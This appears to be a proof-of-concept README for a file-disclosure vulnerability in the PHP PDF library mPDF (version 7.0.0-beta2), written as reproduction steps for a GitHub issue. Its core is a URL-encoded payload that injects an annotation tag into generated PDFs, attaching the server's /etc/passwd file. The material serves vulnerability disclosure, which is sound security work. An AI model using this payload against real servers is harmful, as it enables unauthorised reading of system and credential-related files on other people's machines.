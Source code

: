 # POC for Vulnerability in PHP package `mpdf/mpdf`

- **Issue**: [#356](https://github.com/mpdf/mpdf/issues/356)
- **Package Repository**: [mPDF GitHub](https://github.com/mpdf/mpdf)
- **Package Manager**: [Packagist mPDF](https://packagist.org/packages/mpdf/mpdf)

## Steps to Reproduce

1. Install a vulnerable version of `mpdf/mpdf`: ```composer require mpdf/mpdf:7.0.0-beta2```
2. Start the website locally: ```php -S localhost:8000```
3. In the browser, go to ```http://localhost:8000/index.php?url=%3Cannotation%20file=%22/etc/passwd%22%20content=%22/etc/passwd%22%20icon=%22Graph%22%20title=%22Attached%20File:%20/etc/passwd%22%20pos-x=%22195%22%20/%3E```
4. A PDF file will be generated with a malicious annotation tag. If you download the pdf and click the annotation, you will see that it opens the stolen server file, in this case ```/etc/passwd```.